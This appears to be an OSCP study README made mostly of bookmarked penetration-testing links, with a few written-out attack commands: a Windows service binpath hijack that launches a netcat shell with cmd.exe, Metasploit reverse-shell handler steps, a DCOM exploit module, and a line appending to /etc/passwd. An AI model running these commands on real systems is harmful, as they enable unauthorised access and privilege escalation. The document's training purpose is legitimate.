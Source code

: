 # OSCP - Journey 
** This repo consists of important links (or URLs) which were bookmarked during my journey of OSCP Certification **

!! Note !!

** Most of the links are considered to be SPOLIERS :P !!!**
                                            

# Reverse and Bind Shell tutorials

https://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/

http://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet (for getting PHP reverse shell) 

# Different Types of Shells (Like Php, bash, netcat ....)

https://highon.coffee/blog/reverse-shell-cheat-sheet/

# Privilege Escalation 
1. Windows PE

http://www.fuzzysecurity.com/tutorials/16.html

1. sc qc upnphost
2. sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
3. sc config upnphost obj= ".\LocalSystem" password= ""
4. sc qc upnphost
5. net start upnphost
  
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ 
 
 
2. Linux Kernel 2.6.22 < 3.9 --> Dirty Cow
  
https://www.exploit-db.com/exploits/40839/

https://www.youtube.com/watch?v=iyhbLeOzegM

# Buffer Overflow (BO)

Q) What is buffer-overflow

https://www.youtube.com/watch?v=TsQufuT80uc

    # For Practicing (BO)
  1. Vanilla EIP >>
http://www.primalsecurity.net/0x0-exploit-tutorial-buffer-overflow-vanilla-eip-overwrite-2/

  2. SL Mail >>
https://www.youtube.com/watch?v=Pi51KlEulj4

# Buffer Overflow Python Script

https://gist.github.com/abhi3780/9ca5b778a128d6bd259b06efc273b78a
 
# MD5 Decrypter 
https://hashkiller.co.uk/md5-decrypter.aspx

# For RPC Service 

> use exploit/windows/dcerpc/ms03_026_dcom

https://null-byte.wonderhowto.com/how-to/hack-like-pro-exploit-and-gain-remote-access-pcs-running-windows-xp-0134709/

# Extra Toppings

https://pinboard.in/u:unfo/t:oscp

# LFI _ Practise 

1. Coldfusion 

http://hatriot.github.io/blog/2014/04/02/lfi-to-stager-payload-in-coldfusion/

https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers

# Using Multihandler
1. msf>use exploit multi/handler
2. msf>set payload windows/meterpreter/reverse_tcp
3. msf>set lhost <local IP>
4. msf>set lport <local port>
5. msf> set ExitOnSession false
6. msf>exploit -j

# append users in /etc/passwd

echo "line:to:add" >> /etc/passwd

# MSF Payloads

https://netsec.ws/?p=331

http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/

# OpenFuck / NT SNT Samba Server / Trans2open

https://kongwenbin.wordpress.com/tag/openfuck/

# Phplite_admin 1.9.3

https://www.youtube.com/watch?v=G1i5oWblx9Q

# ManageEngine Multiple Products Authenticated File Upload

https://www.rapid7.com/db/modules/exploit/multi/http/manageengine_auth_upload

# ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow

https://www.rapid7.com/db/modules/exploit/linux/ftp/proftp_telnet_iac

# Oracle 9i XDB - HTTP PASS Overflow

https://www.exploit-db.com/exploits/16809/

# SMTP & POP3 / AUTH LOGIN 

http://www.suburbancomputer.com/tips_email.htm

https://www.ndchost.com/wiki/mail/test-smtp-auth-telnet


To be Cont.......
  

